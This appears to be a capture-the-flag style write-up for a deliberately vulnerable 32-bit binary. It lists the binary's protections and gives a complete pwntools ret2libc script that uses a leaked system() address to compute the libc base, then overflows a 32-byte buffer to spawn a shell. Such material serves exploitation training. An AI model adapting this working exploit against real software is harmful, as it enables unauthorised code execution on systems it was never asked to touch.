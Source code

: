 ## 📘 Exploit Write-up: `vuln-32` – system() Leak to Shell

---

### 🔍 Binary Info

* **Target:** `vuln-32`
* **Arch:** 32-bit (`x86`)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** Disabled
* **PIE:** Disabled
* **Libc:** Dynamically linked
* **Vulnerability:** Buffer Overflow

---

### Goal

Exploit a buffer overflow and use a **leak of `system()`** from the GOT or a debug print, then compute the base address of libc to **call `system("/bin/sh")`**.

---

### 🔓 Vulnerability

The program leaks the address of `system()` during execution:

```c
printf("system() is at: %p\n", system);
```

This gives us a **runtime leak** of a libc function, which we use to calculate the **base address of libc**.

---

### ⚙️ Exploit Strategy

1. Start the process and read the `system()` leak.
2. Subtract offset of `system` from the leak to get the **libc base address**.
3. Use this base to find:

   * Address of `system`
   * Address of `"/bin/sh"` string inside libc
4. Build the payload:

   * Overflow the buffer
   * Return to `system()`
   * Dummy return address (could be anything or `0x0`)
   * Argument to `system()`: address of `"/bin/sh"`
5. Send the payload and get a shell.

---

### 🧪 Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

# Step 1: Leak system() address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)
log.info(f'Leaked system() address: {hex(system_leak)}')

# Step 2: Calculate libc base
libc.address = system_leak - libc.sym['system']
log.success(f'Libc base address: {hex(libc.address)}')

# Step 3: Calculate addresses
system_addr = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

# Step 4: Craft payload
payload = flat(
    b'A' * 32,         # Buffer overflow up to return address
    system_addr,       # Overwrite return address with system()
    0x0,               # Fake return address
    binsh              # Argument to system()
)

# Step 5: Send payload
p.sendline(payload)
p.interactive()
```

---

### 🧾 Output Example

![result](../img/32_final_result.png)

---

### ✅ Exploit Success

We gain a shell by successfully calling:

```c
system("/bin/sh");
```

---

### 📌 Notes

* The exact **offset (32 bytes)** before return address was determined using a pattern (`cyclic`) or manual fuzzing.
* This only works if the binary:

  * **Leaks a libc function** (like system)
  * Doesn't have **stack canaries**
  * Has a fixed **return address location** (no PIE)
* If PIE is enabled, you'd need to leak a function inside the ELF too.

